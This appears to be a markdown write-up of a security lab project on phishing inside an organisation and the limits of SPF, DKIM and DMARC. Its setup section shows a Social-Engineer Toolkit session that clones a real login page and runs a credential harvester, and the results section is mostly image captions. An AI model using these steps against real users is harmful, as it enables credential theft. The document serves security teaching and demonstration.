

### **Project Overview**: 

This project will focus on evading **email security hardening** from **SPF, DKIM, and DMARC** records, demonstrating the impact of these security measures on preventing phishing attacks in an insider scenario. The exercise involves setting up a phishing campaign using **Social-Engineer Toolkit (SET)**, and then showing how to bypass email filtering and email authentication mechanisms (SPF, DKIM, DMARC) that protect against such attacks.

---

### **Step-by-Step Guide for the Project**:

#### **1. Introduction: Define the Problem and Objectives**
   - **Objective**: Explain why email security is critical. Include real-world statistics on phishing attacks to add relevance.
   - **Attack Scenario**: Describe a scenario where an attacker (posing as IT Support) attempts to phish an employee of a company.
   - **Controls Implemented**: You will demonstrate the attack with and without the security controls (SPF, DKIM, DMARC) and email filtering.

   Outlining the attack lifecycle where SPF, DKIM, and DMARC fit into the defense mechanism. SPF and DKIM would not fully protect against a phishing attack if we are already inside the organization.


**DKIM (DomainKeys Identified Mail)**
- DKIM ensures that the email has not been altered during transit by verifying a cryptographic signature tied to the domain. If we pivot this attack from inside the organization, the signature should be valid.

**SPF (Sender Policy Framework)**
- SPF verifies that an email comes from an authorized mail server for the domain.

**DMARC (Domain-based Message Authentication, Reporting, and Conformance)**
- DMARC enforces the domain's policy by combining SPF and DKIM checks. It instructs the recipient's mail server on what to do (reject, quarantine, report, accept) based on the email passing SPF and/or DKIM checks. In an insider scenario, both SPF and DKIM will pass, the email will not be rejected or flagged.



---

#### **2. Setup the Phishing Campaign (Attack Simulation)**


Using SET and cloning a login page
```
...SNIP...

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

...SNIP...

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

...SNIP...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.24.132]:192.168.24.132
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:https://login.squarespace.com/<REDACTED>

[*] Cloning the website: https://login.squarespace.com/<REDACTED>
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:


```

Crafting a Malicious Phishing Email


The link goes to our cloned login page where we will capture any creds.


The victim perspective, receiving the phishing email. 

---

Opening the phishing email raises no alerts.


Let's analyze the results.


#### **3. Analyzing the Phishing Campaign Results**


The phishing email in John Doe's inbox 


The fake login page,
   > The link to a cloned login page which is identical except the URL.


the captured credentials in SET.


